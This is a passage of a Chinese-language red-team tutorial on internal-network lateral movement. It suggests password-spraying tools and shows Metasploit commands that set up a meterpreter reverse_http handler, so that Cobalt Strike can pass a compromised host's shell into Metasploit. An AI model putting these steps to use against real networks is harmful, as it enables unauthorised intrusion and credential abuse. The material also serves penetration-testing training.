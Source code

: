 在利用`cs`进行横向移动时，发现如果`主机和口令`数量足够多的话，比较影响效率，可以使用相关口令扫描工具进行密码喷射如`超级弱口令扫描工具`、`fscan`等，然后进行集中利用。

下面使用`cs派生到msf`进行口令探测和利用：

首先 cs 建立 msf 监听器

[![](assets/1702372940-ac0b7b4203c0c98807f3cb43ecc802fc.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/12.png)

```plain
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost 0.0.0.0
set lport 8888
run
```

[![](assets/1702372940-d5fc4489c4904052b042ef6009490d77.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/34.png)

选择之后，msf 就会立马收到 CS 送的 (派生)shell 权限。
